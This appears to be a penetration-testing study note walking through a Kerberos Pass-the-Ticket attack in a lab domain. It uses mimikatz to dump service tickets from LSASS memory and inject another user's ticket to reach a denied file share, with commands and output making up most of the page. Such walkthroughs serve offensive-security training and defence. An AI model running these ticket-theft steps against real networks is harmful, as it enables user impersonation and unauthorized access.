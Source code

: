 # Pass-the-Ticket

The **Pass-the-Ticket (PtT)** attack exploits Kerberos TGS to impersonate users and access resources across a network. Unlike the TGT, which is machine-bound, TGS can be extracted from memory and re-injected into another session. If TGS tickets belong to the current user, no administrative privileges are needed. This allows attackers to bypass standard access controls by injecting valid Kerberos tickets into their own session.

* **TGT vs TGS:** TGT tickets are used to request service tickets from the KDC and are valid only on the machine they were generated on, while TGS tickets are for accessing specific services and can be reused across machines if extracted.
* **Attack Premise:** Reuse another user's TGS by extracting it from LSASS memory and injecting it into the current session. Does **not** require local admin rights if using the current user’s own tickets.

In our scenario, `dave` has privileged access to the `backup` folder on `WEB04`, but the compromised user, `jen`, does not.

```powershell
# Check jen's permissions
> whoami
corp\jen
> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
```

First, we want first to extract all tickets from LSASS. `mimikatz` will dump them all to `.kirbi` files.

```
# Dump tickets from LSASS
privilege::debug
sekurlsa::tickets /export
...
Saved to file [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

We can inspect the dumped ticket files and confirm that a TGS for `dave` accessing `web04` exists.

{% code overflow="wrap" %}
```powershell
> dir *.kirbi
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
...
```
{% endcode %}

We can then inject `dave`'s `WEB04` TGS into `jen`'s session in order to access the `backup` folder.

```powershell
# Inject dave's TGS into jen's session
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

# List the cached tickets
> klist
...
Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

# Confirm access
> ls \\web04\backup
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```
